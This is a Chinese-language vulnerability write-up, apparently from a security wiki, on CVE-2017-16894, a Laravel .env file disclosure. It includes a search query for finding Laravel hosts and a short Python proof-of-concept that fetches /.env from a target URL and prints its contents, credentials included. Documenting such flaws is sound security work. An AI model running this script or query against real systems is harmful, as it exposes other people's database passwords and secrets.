

Laravel .env 配置文件泄露 CVE-2017-16894¶
漏洞描述¶
Laravel Framework 是 Taylor Otwell 软件开发者开发的一款基于 PHP 的 Web 应用程序开发框架。 Laravel framework 5.5.21 及之前的版本中存在 .env 文件可被下载的信息泄露漏洞。远程攻击者可利用该漏洞获取敏感信息
漏洞影响¶
Laravel framework <= 5.5.21
网络测绘¶
app="Laravel-Framework"
漏洞复现¶
访问目标 url http://xxx.xxx.xxx.xxx/.env
当配置不当且在影响范围内时会出现 .env 可被下载的情况，导致数据库账号密码等敏感信息的泄露
这里使用 POC 脚本来进行信息获取

漏洞 POC¶
import requests
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
def title():
print('+------------------------------------------')
print('+ \033[34mPOC_Des: http://wiki.peiqi.tech \033[0m')
print('+ \033[34mVersion: Laravel framework <= 5.5.21 \033[0m')
print('+ \033[36m使用格式: python3 poc.py \033[0m')
print('+ \033[36mUrl >>> http://xxx.xxx.xxx.xxx \033[0m')
print('+------------------------------------------')
def POC_1(target_url):
vuln_url = target_url + "/.env"
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
}
try:
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
if "APP_NAME" in response.text:
print("\033[32m[o] 目标{}存在漏洞 \033[0m".format(target_url))
print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
else:
print("\033[31m[x] .env 文件请求失败 \033[0m")
sys.exit(0)
except Exception as e:
print("\033[31m[x] 请求失败 \033[0m", e)
if __name__ == '__main__':
title()
target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
POC_1(target_url)